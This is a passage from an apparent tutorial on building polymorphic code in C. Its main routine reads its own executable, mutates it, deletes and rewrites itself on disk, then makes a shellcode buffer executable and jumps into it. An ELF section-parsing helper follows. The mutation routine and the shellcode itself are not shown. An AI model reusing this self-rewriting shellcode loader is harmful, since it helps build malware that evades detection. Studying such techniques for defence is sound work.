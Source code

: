 > ```c
>int main(int argc, char** argv){
>	char* data;
>	struct stat info;
>	int fd;
>
>	/** Reads itself **/
>	if ((fd = open(argv[0], O_RDONLY, 0)) < 0) die(NULL, "Could not read myself\n");
>	fstat(fd, &info);
>	if (!(data = malloc(info.st_size))) die(data, "Could not allocate memory\n");
>	read(fd, data, info.st_size);
>	close(fd);
>
>	mutate(data);
>
>	/** Overwrites itself **/
>	if (unlink(argv[0]) < 0) die(data, "Could not unlink myself\n");
>	if ((fd = open(argv[0], O_CREAT|O_TRUNC|O_RDWR, S_IRWXU)) < 0) die(data, "Could not re-create myself\n");
>	if (write(fd, data, info.st_size) < 0) die(data, "Could not re-write myself\n");
>	close(fd);
>	free(data);
>
>	/** Execute shellcode **/
>	uintptr_t pagestart	 = (uintptr_t)shellcode & -getpagesize();
>	if (mprotect((void*)pagestart, ((uintptr_t)shellcode + SHELLCODE_SIZE - pagestart), PROT_READ | PROT_WRITE | PROT_EXEC) < 0)
>		die(data, "Could not change permissions before executing. Exiting\n");
>	((void(*)())shellcode)();
>}
>
>void die(char* p_data, char* p_msg){
>	if (p_data) free(p_data);
>	fprintf(stderr, p_msg, NULL);
>	exit(EXIT_FAILURE);
>}
> ```

The `die` routine is used only for debugging purpose, as it simply prints a message, eventually frees the dynamically allocated buffer and exits.

## Helpers

The routine `mutate` is the most complicated, that's the reason why some helpers have been written to make it easier to understand. The first one is based on the one given [here](https://0x00sec.org/t/elfun-file-injector/410)
or the one we used in [the previous article](./polymorphic1). It reads the data as an ELF header and finds the offset of the .data section.

> ```c
>Elf64_Shdr* get_section(void* p_data){
>	int i;
>	Elf64_Ehdr* elf_header = (Elf64_Ehdr*) p_data;
>	Elf64_Shdr* section_header_table = (Elf64_Shdr*) (p_data + elf_header->e_shoff);
>	char* strtab_ptr = p_data + section_header_table[elf_header->e_shstrndx].sh_offset;
>	for (i = 0; i < elf_header->e_shnum; i++){
>		if (!strcmp(strtab_ptr + section_header_table[i].sh_name, ".data")) return &section_header_table[i];
>	}
>	return NULL;
>}
> ```
